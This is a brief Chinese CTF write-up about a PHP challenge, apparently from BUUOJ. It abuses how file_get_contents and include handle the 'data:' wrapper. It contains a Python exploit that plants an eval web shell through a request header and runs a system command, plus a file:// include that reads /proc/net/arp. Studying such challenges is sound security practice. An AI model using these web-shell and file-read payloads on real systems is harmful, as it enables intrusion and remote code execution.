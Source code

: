 tags:: [[CTFWEB/伪协议]]

- # 思路
	- 使用file_get_contents和include处理伪协议时的差异进行RCE
- # 伪协议
	-
	- `data`伪协议可以省略掉`//`
	- `file_get_contents('data:127001/profile') == "127001"`
	- 但是选项`allow_url_include=Off`时``include('data:127001/profile')``会寻找文件夹`data:127001`下的`profile`文件
- # Exp
	- ```python
	  # url = "http://127.0.0.1:8081/"
	  url = "http://node4.buuoj.cn:29874/"
	  
	  r = base_post(url, headers = {
	      "Xxx": "<?php eval($_POST['data']);?>",
	      "X-Forwarded-For": "data:127.0.0.1"
	  }, params = {
	      "page": "data:127001/profile"
	  }, data = {
	      "data": "system('/get_flag');"
	  })
	  print(r.status_code)
	  print(r.text)
	  ```
- # 施工中
	- 传入GET参数hl可以看到源码
	- 有限制的文件include
		- ```python
		  # url = "http://127.0.0.1:8081/"
		  url = "http://node4.buuoj.cn:29874/"
		  
		  r = base_get(url, headers = {
		      "Xxx": "Aaa",
		      "X-Forwarded-For": "127.0.0.1"
		  }, params = {
		      "page": "file:///proc/net/arp"
		  })
		  print(r.text)
		  ```